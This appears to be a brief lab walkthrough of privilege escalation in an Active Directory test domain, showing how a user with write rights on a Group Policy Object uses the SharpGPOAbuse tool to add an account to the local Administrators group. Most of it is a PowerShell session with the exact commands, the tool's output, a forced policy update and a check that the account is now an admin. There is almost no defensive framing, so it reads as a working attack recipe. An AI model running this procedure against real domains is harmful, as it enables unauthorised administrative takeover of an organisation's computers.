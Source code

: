 https://github.com/FSecureLABS/SharpGPOAbuse

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

users has gpo write permissions

![image](https://user-images.githubusercontent.com/13157446/137199957-d1dd3c7e-3843-4ccb-8ed0-3564a935d698.png)


we will use "SharpGPOAbuse.exe "  and edit gpo to add a user to local admin group

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	adm1n
	Administrator
	nightmare
	VALHALLA\Domain Admins
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mrblack --GPOName "vulngpo"
	[+] Domain = valhalla.local
	[+] Domain Controller = odin.valhalla.local
	[+] Distinguished Name = CN=Policies,CN=System,DC=valhalla,DC=local
	[+] SID Value of mrblack = S-1-5-21-3410397846-649609989-2919355437-2121
	[+] GUID of "vulngpo" is: {15DD3A52-32EB-4A98-ACAF-476C235E7968}
	[+] Creating file \\valhalla.local\SysVol\valhalla.local\Policies\{15DD3A52-32EB-4A98-ACAF-476C235E7968}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
	[+] versionNumber attribute changed successfully
	[+] The version number in GPT.ini was increased successfully.
	[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
	[+] Done!
	PS C:\Users\testuser\Desktop\PowerSploit\Recon> gpupdate /force
	Updating policy...

	Computer Policy update has completed successfully.
	User Policy update has completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	Administrator
	VALHALLA\mrblack
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon>
